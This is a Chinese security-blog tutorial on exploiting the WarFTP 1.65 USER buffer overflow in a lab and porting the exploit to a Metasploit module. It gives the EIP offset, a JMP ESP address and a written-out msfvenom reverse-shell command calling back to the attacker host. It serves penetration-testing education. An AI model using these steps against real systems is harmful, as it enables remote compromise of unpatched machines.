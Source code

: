 > 原文链接: https://www.anquanke.com//post/id/150202 


# metasploit模块移植/开发--python篇


                                阅读量   
                                **181182**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">6</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t01b4afa401314abdc8.jpg)](https://p2.ssl.qhimg.com/t01b4afa401314abdc8.jpg)

## 前言

近期因小弟个人情况，更新比较慢，望见谅。第一篇文章中我们介绍了metasploit神器的基本情况，现在开始我们进入正题，开始学习漏洞分析调试并开发移植的工作，希望通过本系列课程大家都能学会编写/移植MSF的模块。



## 准备环境/工具
1. 攻击主机： parrot os （小伙伴们可以使用kaili） iP: 192.168.0.159
1. windows xp sp3 IP: 192.168.0.110
1. metasploit
1. Immunity Debugger
1. mona 插件
<li>存在漏洞软件：WarFTP 1.65 （下载地址：[https://pan.baidu.com/s/1xrU2kqUmBH0yhQswk5plCQ](https://pan.baidu.com/s/1xrU2kqUmBH0yhQswk5plCQ) ）<br>[![](https://p1.ssl.qhimg.com/t013b541e647624276d.png)](https://p1.ssl.qhimg.com/t013b541e647624276d.png)
</li>


## 漏洞分析

下面我们开始漏洞分析调试工作，因为是第一篇我们先来个简单的分析一下，通过漏洞公布的信息可以知道，该FTP软件的“USER”处存在缓冲区溢出漏洞。现在我们来研究复现一下，我们先把这个软件拉到Immunity Debugger里按‘F9’运行看一下：<br>[![](https://p2.ssl.qhimg.com/t01b056c7ed6cb7cab8.png)](https://p2.ssl.qhimg.com/t01b056c7ed6cb7cab8.png)

程序已经正常运行，我们点击FTP软件上左上角的火箭小按钮开启FTP服务<br>[![](https://p5.ssl.qhimg.com/t0177fe109805e3ebbf.png)](https://p5.ssl.qhimg.com/t0177fe109805e3ebbf.png)

下面我们使用nmap 探测一下，看FTP服务是否正常开启<br>[![](https://p2.ssl.qhimg.com/t014c8bd977e5d13161.png)](https://p2.ssl.qhimg.com/t014c8bd977e5d13161.png)

可以看到21端口正常开启，服务名称为“WAR-FTPD 1.65”。<br>
那么一切准备就绪，我们就开始我们的fuzzing之旅吧！！<br>
我们先验证一下漏洞是否正式存在，先编写个小脚本验证一些，因为这篇是python篇，所以小弟用python脚本来完成这个工作，代码如下：

[![](https://p3.ssl.qhimg.com/t019fb96b7439dedf19.png)](https://p3.ssl.qhimg.com/t019fb96b7439dedf19.png)

保存脚本并运行<br>[![](https://p1.ssl.qhimg.com/t017e92ba43b9a73413.png)](https://p1.ssl.qhimg.com/t017e92ba43b9a73413.png)

脚本成功运行，并打印出我们想要打印的内容（为什么我要让他打印出接收到的内容哪，后面我们会说的），现在我们看一下靶机内的软件，已经按照正常预想的那样崩溃了，说明的我们的实验成功了，如图：<br>[![](https://p3.ssl.qhimg.com/t01ad81954172846c3e.png)](https://p3.ssl.qhimg.com/t01ad81954172846c3e.png)

细心的小伙伴肯定看到了，ESP、EBP 都出现了一大堆“A”，而EIP 是”0x41414141”。<br>
至于这3个分别代表什么意思呢，相信聪明的你因为会去google一下了解，因不是本系列的重点小弟在这里就不多细讲了。<br>
下面我们的工作是找到该程序溢出的值，我们可以使用metasploit下的一个小工具完成地址为：**“/usr/share/metasploit-framework/tools/exploit/pattern_create.rb”**<br>
切换到该目录下输入命令：./pattern_create.rb -l 1000<br>[![](https://p3.ssl.qhimg.com/t01ca072a4a93340f45.png)](https://p3.ssl.qhimg.com/t01ca072a4a93340f45.png)

可以看到程序自动给我们生成了1000个字母数字并均不重复，下面我们将这些字符复制到上面的脚本中，重新执行看看会发生什么（此处记得把FTP程序也重启一下）<br>[![](https://p5.ssl.qhimg.com/t01d68e6e0f21a6d5af.png)](https://p5.ssl.qhimg.com/t01d68e6e0f21a6d5af.png)

可以看到程序还是崩溃了，但是此时的EIP变成了“0x32714131”,这说明我们的工作都是有意义的，下面我们继续使用msf下的 “pattern_offset.rb”工具来查找他的偏移数，如图：<br>[![](https://p2.ssl.qhimg.com/t01634ba454d173af97.png)](https://p2.ssl.qhimg.com/t01634ba454d173af97.png)

可以看到已经帮我找到偏移位为“485” （记录一下，后面我们用得到！）<br>
下一步我们来验证一下这个偏移位置是否是正确的，这个非常重要，我们修改一下python脚本并运行，如图：<br>[![](https://p3.ssl.qhimg.com/t01f31967a2f9c109b2.png)](https://p3.ssl.qhimg.com/t01f31967a2f9c109b2.png)

[![](https://p5.ssl.qhimg.com/t01d208f8abb7c73765.png)](https://p5.ssl.qhimg.com/t01d208f8abb7c73765.png)

可以看到现在EIP地址变成了“0x46464646” 即“F”字母的16进制，而EBP栈底地址也变成了“CCCC”，这说明我们的偏移地址是正确的。<br>
下面我们就来查找程序所调用的dll文件来控制EIP，让其跳转到我们想要执行的恶意shellcode，我们先查找dll文件，这里的方法很多，本次小弟使用的方法是：<br>
打开Immunity Debugger — view — Executable modules<br>
软件自动帮我们列出了该程序所调用的所有dll文件，如图：<br>[![](https://p5.ssl.qhimg.com/t01a25df24a613a24ed.png)](https://p5.ssl.qhimg.com/t01a25df24a613a24ed.png)

下面呢小弟选择最下面的 shell32.dll 作为本次实验的dll文件，选择它后双击2下，即进入了该dll代码块，我们使用快捷键 “ctrl+f”来搜索关键字 “jmp esp” （如无也可以使用call esp），可以看到程序已经帮我找到了一处调用点，地址为：0x7D711020。（记录一下这个地址）**（这里强调一点，因为操作系统的不同每个JMP地址也会不一样，该地址本菜这里能用不代表您的系统就能使用！！！）**如图：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a02d0a387217cfcd.png)

下一步我们需要一个shellcde，这里我们可以使用msfvenom来帮我们完成这个工作，命令：msfvenom -p windows/shell_reverse_tcp rhost=192.168.0.159 lport=5555 -b “x00x0ax0dx40x20” -f python -v shellcode

[![](https://p5.ssl.qhimg.com/t01a297bb64e043de26.png)](https://p5.ssl.qhimg.com/t01a297bb64e043de26.png)

最后我们修改一下那个python脚本，如图：<br>[![](https://p0.ssl.qhimg.com/t010d3d03a2f94d6e52.png)](https://p0.ssl.qhimg.com/t010d3d03a2f94d6e52.png)

下面介绍一下代码：<br>
第5行到第35行shellcode代码区（执行反弹命令）<br>
第37行代码前面一段为485个A 用来填充内存，“7D711020”为上面找到了jmp esp地址，因为是小端显示故是要反着写为“x20x10x71x7D”, 后面跟着20个“C”，为了防止我们的shellcode被覆盖，最后跟上我们的shellcode。<br>
最后的第43行代码上面解释过了把拼接好的数据发送给FTP服务器并打印。（**注意：“USER” 后面要跟上一个空格，否则漏洞将无法执行，这也就是我们上面要让代码打印出接收到的数据一样，可以看到“user name”中间是有一个空格的！**）。

下面我们执行这个python脚本,并在攻击机器上运行nc来接收靶机的反弹，如图：<br>[![](https://p3.ssl.qhimg.com/t015d75fb26ccabc0d2.png)](https://p3.ssl.qhimg.com/t015d75fb26ccabc0d2.png)

可以看到我们已经通过远程缓冲区溢出漏洞成功拿下了目标电脑！！<br>
你以为文章这样就结束了吗？ NONONO 我们的重点才刚要开始！



## 模块移植

可能小伙伴们在网上看到的EXP就如上面的代码那样，但是如果我们在真实的渗透环境中碰到大型的网络环境下，多台机器存在该漏洞呢，难道也这样一个个接收吗？那我们就需要把该利用脚本移植到MSF来了。下面我们就学习怎么移植一个EXP到metasploit吧，我们可以使用“mona.py”插件来减少工作量，下载地址：[https://github.com/corelan/mona](https://github.com/corelan/mona)

安装好以后纳，我们在Immunity Debugger下 输入 “!mona skeleton” 回车<br>[![](https://p3.ssl.qhimg.com/t016f8602f52c3bad22.png)](https://p3.ssl.qhimg.com/t016f8602f52c3bad22.png)弹出一个窗口，通过下拉选择 TCP，然后点OK<br>[![](https://p3.ssl.qhimg.com/t01328c0cb53ec8ae47.png)](https://p3.ssl.qhimg.com/t01328c0cb53ec8ae47.png)因为是21端口，所以我们就输入21，继续点OK<br>
最后该插件自动帮我们生成了一个名为 “msfskeleton.rb”的文件，我们打开看一下<br>
如图：<br>[![](https://p5.ssl.qhimg.com/t016442e72fc1ab63f2.png)](https://p5.ssl.qhimg.com/t016442e72fc1ab63f2.png)

[![](https://p4.ssl.qhimg.com/t01e58466c88e51ef1c.png)](https://p4.ssl.qhimg.com/t01e58466c88e51ef1c.png)

ruby的代码讲解小弟在上一篇文章，下面我们的工作就比较简单了，只需要填空就行。<br>[![](https://p1.ssl.qhimg.com/t0116ca5867881eb7f4.png)](https://p1.ssl.qhimg.com/t0116ca5867881eb7f4.png)

[![](https://p5.ssl.qhimg.com/t0194bc9db210adec15.png)](https://p5.ssl.qhimg.com/t0194bc9db210adec15.png)如图中是小弟修改好的代码，小弟挑出几个比较重要的地方给大家说明一下，
1. 第9行代码处 表示引用了“/usr/share/metasploit-framework/lib/msf/core/exploit/ftp.rb”，很多FTP的方法都已经在那个文件内被定义好了，我们只需要调用就行。
1. 第33行代码处表示我们是在windows平台; 34行代码可以不设置也可以直接写入指定payload.
1. 第36行代码表示写入需要过滤的一些坏字节
1. 第44行代码是我们在调试时发现是jmp esp地址（上面有记录），方便下面调用
<li>第63行代码开始就是我们的EXP，ruby中的“&lt;&lt;” 等于 python 中的 “+=”， 如图做个演示<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0155b024c6e0d28c59.png)
</li>
如果不敢确定代码是否写对了，可以使用“/usr/share/metasploit-framework/tools/dev/msftidy.rb”验证一下，如图：<br>[![](https://p3.ssl.qhimg.com/t014547801262f3ceea.png)](https://p3.ssl.qhimg.com/t014547801262f3ceea.png)

最后我们来验证一下这个代码是否真的可用，如图：<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t011a89cd717c658e8b.png)

可以看到我们已经成功通过自己写的模块入侵了靶机。



## 结束

小弟非专业码农，写代码习惯可能不好，没写注释啥的。请各位大佬别见怪！如果文章哪里写的不对，还请大家斧正。最后祝大家生活愉快，工作顺心！！

审核人：yiwang   编辑：边边
